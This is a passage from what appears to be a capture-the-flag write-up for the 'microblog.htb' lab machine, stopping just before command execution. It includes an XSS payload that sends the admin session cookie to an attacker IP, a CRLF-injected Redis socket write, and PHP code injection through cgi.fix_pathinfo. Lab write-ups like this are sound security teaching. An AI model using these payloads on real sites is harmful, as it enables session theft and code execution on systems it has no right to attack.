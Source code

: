 We can overwrite **sunny**'s content, for example:

`id=/var/www/microblog/sunny/content/jtdpx1iea5&header=x`

Let's try **XSS** to steal admin's session cookie:

`id=/var/www/microblog/sunny/content/jtdpx1iea5&header=<script>window.location="http://10.10.14.93/?" + document.cookie;</script>`

Unfortunately we never get a callback.

# Writing to the socket
It might be possible to directly communicate with Redis by writing to the `/var/run/redis/redis.sock`.

`id=/var/run/redis/redis.sock&header=%0D%0A%0D%0AHSET+test+pro+"true"%0D%0A%0D%0A`

Nothing worked so far.

# Config enumeration

```
/etc/nginx/nginx.conf
/var/log/nginx/error.log
/var/log/nginx/access.log
/etc/nginx/fastcgi.conf
/etc/nginx/fastcgi_params
/etc/nginx/mime.types
/etc/nginx/sites-enabled/default
/etc/nginx/sites-enabled/microblog.htb
/etc/php/7.4/fpm/php.ini
```

# PHP execution

Let's look at: https://www.sitepoint.com/setting-up-php-behind-nginx-with-fastcgi/

Inside php.ini there's a line:

```
cgi.fix_pathinfo=1;
```

[It's dangerous!](https://security.stackexchange.com/questions/177354/turned-on-cgi-fix-pathinfo-still-dangerous-in-nginx)

We can do a `POST /edit/index.php` with:

```php
id=cos.php&header=<?php phpinfo(); ?>
```

**It works!**

Let's try command execution:
